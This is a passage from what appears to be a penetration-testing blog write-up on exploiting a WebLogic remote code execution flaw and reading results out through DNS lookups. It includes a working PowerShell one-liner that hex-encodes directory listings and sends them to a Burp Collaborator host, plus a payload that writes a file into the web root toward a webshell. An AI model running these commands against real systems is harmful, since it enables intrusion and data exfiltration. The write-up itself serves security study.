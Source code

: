 ![image1]({{ site.url }}{{ site.baseurl }}/assets/images/dns/1.6.png){: .align-center}
image 1.6

And we get two hits with some hex data.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/dns/1.7.png){: .align-center}
image 1.7

Decoding it with burp decode shows us the output. And surprisingly the application is running as  `nt authority\system` which is a dangerous thing to do.

## RCE to webshell

Using the output of our commands, we can understand the directory structure better to write a webshell.

```powershell
powershell -exec -c "$(dir) -split '(.{16})' | ? {$_} | % { Resolve-DnsName (([System.BitConverter]::ToString([System.Text.Encoding]::UTF8.GetBytes($_))).Replace('-','')+'.jtg84womt25t21z6s0t1t3xhx83zro.burpcollaborator.net') -Type A; Start-Sleep -Seconds 1 }"
```

Start with `dir` and look inside each directory. Each output will be split into multiple dns requests. We have to assemble them back together to get the output.

Finally I found that the actual path was `servers\AdminServer\tmp\_WL_internal\com.oracle.webservices.wls.bea-wls9-async-response_12.1.3\2ig01a\war\`

Our final payload will be

```powershell
powershell -exec bypass -c "echo 'file created as part of security testing' > servers\AdminServer\tmp\_WL_internal\com.oracle.webservices.wls.bea-wls9-async-response_12.1.3\2ig01a\war\sectest.txt"
```

And we can visit the page to view our payload.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/dns/1.8.png){: .align-center}
image 1.8 

And we can see our text. Unfortunately I do not have permission to  upload a shell. So this will be it. 

## Notes

1. As I did more research, I found a better way to send the data without using multiple requests. Data can be appended as multiple subdomains. eg `data1.data2.data3.attacker.com`. I couldn't fully get this to work
2. There are also techniques available to send data through fields other that A records.
3. Using a custom domain and a nameserver, it is possible to automate the decoding by writing a script that will listen on port 53.
4. There are tool such as [DnsSteal](https://github.com/m57/dnsteal), [requestbin.net](http://requestbin.net/) that can make the process easier.

## Further Reading
1. https://blog.fosec.vn/dns-data-exfiltration-what-is-this-and-how-to-use-2f6c69998822
2. https://blogs.infoblox.com/community/dns-data-exfiltration-how-it-works/
3. https://pentest.blog/data-exfiltration-tunneling-attacks-against-corporate-network/